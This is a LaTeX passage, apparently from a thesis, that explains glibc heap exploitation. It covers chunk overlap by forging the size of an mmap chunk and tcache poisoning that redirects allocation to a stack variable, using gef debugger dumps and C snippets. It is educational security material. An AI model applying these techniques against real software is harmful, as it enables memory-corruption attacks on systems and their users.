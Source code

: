 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\tch{tcache}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
Chunk(addr=0x555555559010, size=0x20, flags=PREV_INUSE)
  [0x0000555555559010   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................]
Chunk(addr=0x555555559030, size=0x410, flags=PREV_INUSE)
  [0x0000555555559030   0a 43 75 72 72 65 6e 74 20 53 79 73 74 65 6d 20  .Current System ]
Chunk(addr=0x555555559440, size=0x20bd0, flags=PREV_INUSE)  top chunk
\end{lstlisting}
\begin{lstlisting}[language=c,frame=tlrb]
gef p mmap_chunk_2
$1 = (long long *) 0x7ffff7935010
gef p mmap_chunk_3
$2 = (long long *) 0x7ffff7834010
gef p top_ptr
$3 = (long long *) 0x7ffff7ef2010
\end{lstlisting}
Like the previous one, we change the size of the last chunk. The new chunk size is the sum of the size of chunk\_3 and chunk\_2, as the result, the unmmap freezes both areas.
\begin{lstlisting}[language=c,frame=tlrb]
free(mmap_chunk_3);
\end{lstlisting}

In this stage if we allocate a new big chunk, this new big chunk is overlap with chunk\_2 which just has been unmmap without call unmmap directly, as the result, we can write on the chunk2 area with the help of our new chunk.

\section{\tch{} poisoning}
This attack is specially designed for \tch{} bins, As a result, The \tch{} attack won't work on the older version of libc which does not have \tch{}. The final goal is to force \tch{} to return a chunk in a controlled location for example the stack. consider the following code : 
\begin{lstlisting}[language=c,frame=tlrb]
size_t stack_var;
intptr_t *a = malloc(128);
intptr_t *b = malloc(128);
free(a);
free(b);
\end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]
Tcachebins[idx=7, size=0x90] count=2  Chunk(addr=0x555555559330, size=0x90, flags=PREV_INUSE)  Chunk(addr=0x5555555592a0, size=0x90, flags=PREV_INUSE) 
\end{lstlisting}
The controller location in this sample is a variable inside the stack. In the next step, we allocate and free two chunks. In newer versions of \libc{}, this chunk could be added to \tch{}.
In the second step we overwrite the fd pointer of chunk ‘b’ :
\begin{lstlisting}[language=c,frame=tlrb]
b[0] = (intptr_t)&stack_var;
\end{lstlisting}
\end{document}
